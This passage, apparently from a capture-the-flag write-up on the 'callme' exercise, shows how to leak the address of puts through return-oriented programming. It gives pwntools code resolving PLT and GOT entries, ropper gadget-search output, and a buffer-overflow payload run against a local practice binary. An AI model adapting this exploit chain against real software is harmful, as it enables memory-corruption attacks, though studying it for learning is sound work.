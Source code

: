 In order to leak the address of a function, we need it to be called first so its address can be resolved in the GOT. Fortunately, `puts` is already called in `pwnme`, so that's not an issue. With this, we can construct a basic script to leak the address of `puts`. This is our initial setup:

```python
from pwn import *

elf = context.binary = ELF("./callme")

# we can resolve the address of the entries through pwntools, no disassembler needed.
# important: these are _addresses_, not the actual value.
PUTS_PLT = elf.plt["puts"]
PUTS_GOT = elf.got["puts"]
```

Using `pwntools`, we can resolve the addresses of the PLT and GOT entries of `puts`. We need both because we'll be calling `puts` to leak its own GOT entry, and we will be calling it from the PLT.

Of course, we'll need to ROP our way to a call to `puts`. We already know how to do this with a quick gadget search (using `ropper` this time):

```text
$ ropper -f ./callme --search "pop rdi"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ./callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret;
```

```python
POP_RDI_GADGET = p64(0x4009a3)

payload1 = b'A' * 40

# pop the address of puts' GOT entry into rdi
payload1 += POP_RDI_GADGET
payload1 += p64(PUTS_GOT)
# call puts
payload1 += p64(PUTS_PLT)
```

Alright, so after calling `puts` through a gadget, we need to read back the information and parse it. Let's just blindly read back everything and print it for now, just to see what it's doing.

```python
conn = process()
conn.recvuntil(b'> ')

conn.send(payload1)

print(conn.recvall())
```

